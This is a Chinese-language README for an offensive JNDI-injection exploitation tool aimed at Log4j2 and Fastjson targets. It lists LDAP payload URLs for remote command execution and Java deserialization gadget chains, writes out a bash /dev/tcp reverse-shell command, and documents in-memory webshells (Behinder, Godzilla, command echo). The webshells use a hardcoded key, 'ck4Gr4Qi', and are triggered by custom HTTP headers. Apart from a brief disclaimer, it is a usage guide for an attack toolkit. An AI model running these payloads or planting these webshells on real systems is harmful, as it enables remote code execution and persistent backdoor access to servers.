

# JNDIExp使用说明

用于 JNDI注入 利用的工具，参考/引用了 **Rogue JNDI** / **JNDIExploit** / **Y4er** / **c0ny1**项目的代码。

## **免责说明**

本工具仅适用于安全研究，严禁适用本工具发起网络黑客攻击，造成法律后果，请使用者自负。

- - - -

TomcatServletMemShellFromJMX
## **使用说明**
- - - -
```shell
Usage: java -jar JNDIInject-1.2-SNAPSHOT.jar [options]
  Options:
    -i, --ip       Local ip address  (default: 0.0.0.0)
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show ALL usage (default: false)
    -h, --help     Show this help
```
**使用`java -jar JNDIInject.jar -u`查看全部完整的支持的 LDAP 格式以及爆破的字典**

```shell
java -jar JNDIInject.jar -u

Supported LADP Queries:
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://0.0.0.0:1389/basic/[PayloadType]/[Params], e.g.
		ldap://0.0.0.0:1389/basic/[cmd]  ---Best URL Encode
    ldap://0.0.0.0:1389/basic/base64/[base64_encoded_cmd]
    ldap://0.0.0.0:1389/basic/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://0.0.0.0:1389/basic/ReverseShell2/[ip]/[port]
    ldap://0.0.0.0:1389/basic/memshell/[memshellType]

    ----------------------------------------------------------------------------------------->
    高版本java的利用
[+] ByPass Queries: ldap://0.0.0.0:1389/[PayloadType]/[Type]/[Params], e.g.
    ldap://0.0.0.0:1389/[PayloadType]/[cmd]
    ldap://0.0.0.0:1389/[PayloadType]/base64/[base64_encoded_cmd]
    ldap://0.0.0.0:1389/[PayloadType]/reverseshell/[ip]/[port]  ---windows NOT supported
    ldap://0.0.0.0:1389/[PayloadType]/reverseshell2/[ip]/[port]  ---windows NOT supported
    ldap://0.0.0.0:1389/[PayloadType]/memshell/[memshellType] 
    
    
[+] ----------------------------------------------------------------------------------------->
		爆破可利用链
    ldap://0.0.0.0:1389/fuzzbyDNS/[domain]
    
    
    ----------------------------------------------------------------------------------------->
		爆破可利用链2
[+] Fuzz Queries: ldap://0.0.0.0:1389/fuzz/[GadgetType]/[domain], e.g.
    ldap://0.0.0.0:1389/fuzz/[PayloadType]/[domain]
   
    ----------------------------------------------------------------------------------------->
  
   [PayloadType]： 
   ldap://0.0.0.0:1389/URLDNS/[domain]
{------The following methods are supported memshell[以下方法支持内存马]-------------------}
   ldap://0.0.0.0:1389/basic/[cmd]
   ldap://0.0.0.0:1389/EL/[cmd]
   ldap://0.0.0.0:1389/CommonsBeanutils1/base64/[base64_encoded_cmd]
   ldap://0.0.0.0:1389/CommonsBeanutils183NOCC/ReverseShell/[ip]/[port]
   ldap://0.0.0.0:1389/CommonsBeanutils192NOCC/ReverseShell2/[ip]/[port]
   ldap://0.0.0.0:1389/CommonsCollections1/memshell/[memshellType]
   ldap://0.0.0.0:1389/CommonsCollections2/memshell/FILE:data/exp.class
   ldap://0.0.0.0:1389/CommonsCollections3/memshell/SpringInterceptorMemShell
   ldap://0.0.0.0:1389/CommonsCollections4/memshell/TomcatCmdEcho
   ldap://0.0.0.0:1389/CommonsCollections5/memshell/TomcatFilterMemShellFromThread
   ldap://0.0.0.0:1389/CommonsCollections6/memshell/TomcatFilterMemShellFromJMX
   ldap://0.0.0.0:1389/CommonsCollections7/memshell/TomcatListenerMemShellFromThread
   ldap://0.0.0.0:1389/CommonsCollectionsK1/memshell/TomcatListenerMemShellFromJMX
   ldap://0.0.0.0:1389/CommonsCollectionsK2/memshell/TomcatListenerNeoRegFromThread
   ldap://0.0.0.0:1389/CommonsCollectionsK3/memshell/TomcatServletMemShellFromThread
   ldap://0.0.0.0:1389/CommonsCollectionsK4/memshell/TomcatServletMemShellFromJMX
   ldap://0.0.0.0:1389/C3P0/http://127.0.0.1:8080:Exploit
   ldap://0.0.0.0:1389/Clojure/[cmd]
   ldap://0.0.0.0:1389/BeanShell1/[cmd]
   ldap://0.0.0.0:1389/JSON1/[cmd]
   ldap://0.0.0.0:1389/Spring1/[cmd]
   ldap://0.0.0.0:1389/Spring2/[cmd]
   ldap://0.0.0.0:1389/Hibernate1/[cmd]
   ldap://0.0.0.0:1389/Myfaces1/[cmd]
   ldap://0.0.0.0:1389/MozillaRhino1/[cmd]
   ldap://0.0.0.0:1389/rome/[cmd]
   ldap://0.0.0.0:1389/groovy1/[cmd]
   ldap://0.0.0.0:1389/Vaadin1/[cmd]
   ldap://0.0.0.0:1389/snakeyaml//http://127.0.0.1:8080/exp.jar
{------The following methods are supported memshell[以下方法不支持内存马]-------------------}
   ldap://0.0.0.0:1389/groovyBytomcat/[cmd]
   ldap://0.0.0.0:1389/XStream/[cmd]
   ldap://0.0.0.0:1389/mvel/[cmd]
   ldap://0.0.0.0:1389/BeanShell2/[cmd]
   ldap://0.0.0.0:1389/tomcat_dbcp1_RCE/[cmd]
   ldap://0.0.0.0:1389/tomcat_dbcp2_RCE/[cmd]
   ldap://0.0.0.0:1389/commons_dbcp1_RCE/[cmd]
   ldap://0.0.0.0:1389/commons_dbcp2_RCE/[cmd]
   ldap://0.0.0.0:1389/druidjdbc/[cmd]
   ldap://0.0.0.0:1389/tomcatjdbc/[cmd]

    -----------------------------------------------------------------------------------------


```


~~由于可利用的链较多，各个利用链都有需要的依赖包，所以设计使用比较笨的方法进行fuzz，尽可能判断出可以利用的利用链。
本模块利用tomcat中的`org.apache.naming.factory.BeanFactory`和JDK自带的MLET类进行fuzz。~~

~~**缺点：**~~

~~1. 需要依赖tomcat的ObjectFactory类(org.apache.naming.factory.BeanFactory~~
~~2. 需要配合burpsutite的intruder模块~~
~~3. 配合http平台接收请求(推荐ceye)(使用`python3 -m http.server port`简易http接受请求)~~
~~4. **使用tomcat时由于使用的ParallelWebappClassLoader加载第三方lib，所以MLET加载class会报错，故无法使用此模块进行爆破**（后续考虑删除此模块）~~


- - - -
## 使用教程

1. 在VPS上启动工具,利用时讲ip替换为实际VPS的IP地址。
1. `${jndi:ldap://127.0.0.1:1389/basic/${java:version}}`使用${java:version}获取到目标服务器上的java版本(仅仅适用于Log4j2漏洞利用，fastjson等其他漏洞可以跳过此步骤)
2. JDK版本小于`11.0.1, 8u191, 7u201, 6u211`版本,可以直接使用basic模块

```
	ldap://0.0.0.0:1389/basic/cmd  (无回显，需要进行url编码)
  ldap://0.0.0.0:1389/basic/base64/[base64_encoded_cmd]
  ldap://0.0.0.0:1389/basic/ReverseShell/[ip]/[port](反弹shell)
  ldap://0.0.0.0:1389/basic/ReverseShell2/[ip]/[port]
  ldap://0.0.0.0:1389/basic/memshell/[memshellType]（内存马）
```

3. JDK版本大于11.0.1, 8u191, 7u201, 6u211时,需要尝试使用利用链绕过，可以使用${jndi:ldap://127.0.0.1:1389/fuzzbyDNS/[domain]}利用dnslog去判断哪些利用链可以进行利用(只需要发送一次请求)


(反序列化链存在版本区别serialVersionUID会改变，通过dns请求可知目标可以使用el,groovy,BeanShell1反序列化,CC3.2.1反序列化,CB192等等利用模块)(PS:测试使用mac故未出现系统信息)

4. 选择其中一个利用链进行利用


## FUZZ模块

#### **说明：**

在上述情况不知道如何利用的情况下可以使用本模块进行fuzz。

#### **使用步骤：**

1. 利用DNSLOG发现log4j2漏洞或者Fastjson类能够发起ldap请求的漏洞。
2. 在目标可以访问的服务器上(vps或内网服务器)开启本工具进行监听

3. 需要配合burpsutite的intruder模块
4. 配合DNSLOG平台接收请求(推荐ceye)(使用`python3 -m http.server port`简易http接受请求)
5. 直接使用已有的利用链直接生成发起dns请求的命令，搭配dns平台进行fuzz
6. 原理：使用各个利用链发起dns请求。
7. `ldap://0.0.0.0:1389/fuzz/EL/xxxx.dnslog.cn`

下列为FUZZ使用字典

```
URLDNS 
CommonsBeanutils1
CommonsBeanutils183NOCC
CommonsBeanutils192NOCC
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
CommonsCollectionsK1
CommonsCollectionsK2
CommonsCollectionsK3
CommonsCollectionsK4
C3P0
groovyBytomcat
Clojure
BeanShell1
JSON1
Spring1
Spring2
Hibernate1
MozillaRhino1
rome
groovy1
EL
snakeyaml
XStream
mvel
BeanShell2
tomcat_dbcp1_RCE
tomcat_dbcp2_RCE
commons_dbcp1_RCE
commons_dbcp2_RCE
druidjdbc
tomcatjdbc
Vaadin1

```




## basic模块
**说明：**低版本的java环境包括11.0.1, 8u191, 7u201, 6u211版本开始做了限制之前的利用方式。本模块使用http请求的方式，返回给受害者恶意类执行。
**使用说明：**
```apl
/basic/base64/[base64_encode_command]
/basic/reverseshell2/ip/port
/basic/reverseshell/ip/port
```
reverseshell执行的命令为：`bash -c $@|bash 0 echo bash -I >& /dev/tcp/ip/port 0>&1`


## bypass模块
**说明：**使用两种加载本地classpath的类进行绕过的方法：

1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。这里使用ysoserial的反序列化链

可以使用链(PayloadType)：
```
CommonsBeanutils1
CommonsBeanutils183NOCC
CommonsBeanutils192NOCC
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
CommonsCollectionsK1
CommonsCollectionsK2
CommonsCollectionsK3
CommonsCollectionsK4
C3P0
groovyBytomcat
Clojure
BeanShell1
JSON1
Spring1
Spring2
Hibernate1
Myfaces1
MozillaRhino1
rome
groovy1
EL
snakeyaml
XStream
mvel
BeanShell2
tomcat_dbcp1_RCE
tomcat_dbcp2_RCE
commons_dbcp1_RCE
commons_dbcp2_RCE
druidjdbc
tomcatjdbc
Vaadin1
```
可使用的利用方式(新增内存马)
```
/[cmd]
/base64/[base64_cmd]
/reverseshell/[ip]/[port]
/reverseshell2/[ip]/[port]
/memshell/[TomcatFilterMemShellFromThread]
/memshell/FILE:data/exp.class
```
可以进行组合执行
```
ldap://ip:port/XStream/open%20-a%20calculator
ldap://ip:port/Spring1/base64/b3BlbiAtYSBjYWxjdWxhdG9y
ldap://ip:port/EL/reverseshell/127.0.0.1/4444
ldap://ip:port/CommonsBeanutils1/reverseshell2/127.0.0.1/4444
ldap://ip:port/EL/memshell/SpringInterceptorMemShell
ldap://ip:port/CommonsBeanutils1/memshell/TomcatCmdEcho
ldap://ip:port/CommonsCollectionsK1/memshell/TomcatFilterMemShellFromThread
ldap://ip:port/CommonsCollectionsK2/memshell/TomcatFilterMemShellFromJMX
ldap://ip:port/CommonsCollections1/memshell/TomcatListenerMemShellFromThread
ldap://ip:port/CommonsBeanutils192NOCC/memshell/TomcatListenerMemShellFromJMX
ldap://ip:port/CommonsBeanutils183NOCC/memshell/TomcatListenerNeoRegFromThread
ldap://ip:port/EL/memshell/TomcatServletMemShellFromThread
ldap://ip:port/EL/memshell/TomcatServletMemShellFromJMX
```

## 利用链特殊说明

**snakeyaml ：**  `command=http://127.0.0.1:8080/exp.jar 加载恶意类`。可以使用提供的yaml-payload-master(需要修改代码，重新生成jar，内附使用说明)。无法使用reverseshell。

```shell
ldap://ip:port/bypass/snakeyaml/http://127.0.0.1:8080/exp.jar
ldap://ip:port/bypass/snakeyaml/base64/aHR0cDovLzEyNy4wLjAuMTo4MDgwL2V4cC5qYXI%3D
```

**C3p0 ：**`command=http://127.0.0.1:8080:Exploit(端口为默认为8080)`  data目录下的Exploit可以进行参考,直接修改Exploit.java的命令使用javac编译(不用另外起http服务)

```shell
ldap://ip:port/bypass/snakeyaml/http://127.0.0.1:8080:Exploit
ldap://ip:port/bypass/snakeyaml/base64/aHR0cDovLzEyNy4wLjAuMTo4MDgwOkV4cGxvaXQ%3D
```


## 内存马说明

1. 每种内存马都同时插入冰蝎，哥斯拉，命令回显内存马
1. TomcatServlet内存马需要访问指定路径（网站根目录+/ser）
1. key为 `ck4Gr4Qi`
1. 命令回显内存马需要添加http头
```
Referer:https://www.google.com/
x-client-data:cmd
cmd:whoami
```
3. 冰蝎需要添加http头,密码为ck4Gr4Qi
```
Referer:https://www.google.com/
x-client-data:rebeyond
```
3. 哥斯拉需要添加http头,key为ck4Gr4Qi
```
Referer:https://www.google.com/
x-client-data:godzilla
```
## Fuzz案例：

发现Log4j2漏洞或者fastjson漏洞后，使用burp的intruder模块进行fuzz(简单直接)

## 

添加Fuzz2的字典。（可以设置一下发包间隔1s）


去DNS平台查询结果


# 总结

能用就行


